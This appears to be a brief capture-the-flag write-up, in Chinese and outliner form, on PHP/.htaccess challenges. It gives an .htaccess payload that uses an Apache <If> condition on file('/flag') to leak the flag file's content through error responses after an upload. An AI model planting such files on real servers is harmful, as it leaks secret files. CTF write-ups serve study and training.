 tags:: [[CTF/PHP/htaccess]]

- # WP
	-
	- 利用上传[`.htaccess`]([[CTF/PHP/htaccess]])读flag文件
	- .htaccess的内容
		- ```
		  <If 'file("/flag") > "CONTENT"'>
		  ErrorDocument 404 "x_x"
		  </If>
		  ```
	-